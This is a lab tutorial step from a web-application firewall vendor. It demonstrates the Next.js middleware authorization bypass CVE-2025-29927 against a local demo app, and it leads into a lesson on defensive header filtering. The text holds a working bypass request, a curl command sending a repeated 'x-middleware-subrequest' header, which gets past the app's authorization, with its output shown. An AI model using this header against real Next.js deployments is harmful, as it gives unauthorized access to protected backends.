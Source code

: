 <!--
SPDX-FileCopyrightText: 2025 United Security Providers AG, Switzerland

SPDX-License-Identifier: GPL-3.0-only
-->

&#127919; In this step you will:

* Access the vulnerable Next.js demo application
* Bypass the Next.js authorization (CVE-2025-29927)

### Access the vulnerable Next.js demo application

> &#8987; Wait until the console on the right side shows `*** Scenario ready ***` before accessing the backend (otherwise you'll see a `HTTP 502 Bad Gateway` error)!

As outlined in [CVE-2025-29927 Next.js Authorization bypass analysis](https://jfrog.com/blog/cve-2025-29927-next-js-authorization-bypass/) by JFrog Security team in March 2025, ...

The vulnerable Next.js demo application has been setup and will be used to demonstrate the problematic behavior.

> &#128270; Initially the backend will be accessed unprotected (not using USP Core WAAP)

While you can [access the demo application]({{TRAFFIC_HOST1_3000}}/api/hello) using a browser, you'll see a `HTTP 401` response since no authorization was sent. Note that this small demo application for simplicity accepts any value used as `Authorzation` Header.

Go ahead and make a HTTP GET request (without an authorization header) replicating the browser behavior:

```shell
curl http://localhost:3000/api/hello
```{{exec}}

<details>
<summary>example command output</summary>

```shell
{"error":"Unauthorized"}
```

</details>

The application correctly responds with message "unauthorized" (combined with HTTP Status Code 401). Now presenting (a fake) authorization header the backend responds with data:

```shell
curl -H "Authorization: my-jwt-token-here" http://localhost:3000/api/hello
```{{exec}}

<details>
<summary>example command output</summary>

```shell
{"message":"Hello, World"}
```

</details>

So far we've tested access to the backend (without USP Core WAAP protection) and correct backend behavior.

### Bypass the Next.js authorization (CVE-2025-29927)

Because of CVE-2025-29927 present in multiple Next.js versions (greatly analyzed in [this blog post from JFrog](https://jfrog.com/blog/cve-2025-29927-next-js-authorization-bypass/)) not having an authorization token does not guarantee no access to the sensitive backend.

As seen now by using Next.js version 14 (up to 14.2.24) where one can send a static HTTP header **completely bypassing the Next.js Middleware authorization**:

```shell
curl -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000/api/hello
```

<details>
<summary>example command output</summary>

```shell
{"message":"Hello, World"}
```

</details>

Now let's see how you can use [header filtering](https://docs.united-security-providers.ch/usp-core-waap/crd-doc/#corewaapservicespecheaderfiltering) **provided by USP Core WAAP** in the next step!
